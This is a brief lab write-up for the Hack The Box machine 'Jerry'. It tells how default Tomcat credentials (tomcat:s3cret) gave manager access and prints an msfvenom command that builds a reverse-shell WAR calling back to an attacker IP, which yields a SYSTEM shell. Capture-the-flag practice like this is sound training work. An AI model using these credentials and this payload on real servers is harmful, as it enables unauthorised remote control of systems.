 # Jerry

URL: https://app.hackthebox.com/machines/Jerry

Level: Easy

Date 2 Jun 2020

## Walkthrough

- [Enumeration](#enumeration)

# Enumeration

## NMAP

We found port 8080/TCP, Tomcat.

We search on Google for default password:

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

and we get access with `tomcat:s3cret`.

We use `msfvenom` to generate a war payload:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f war > shella.war
```

We upload .war file on Tomcat, and we start listening on port 4444/TCP.

We get an easy win with a SYSTEM reverse shell.
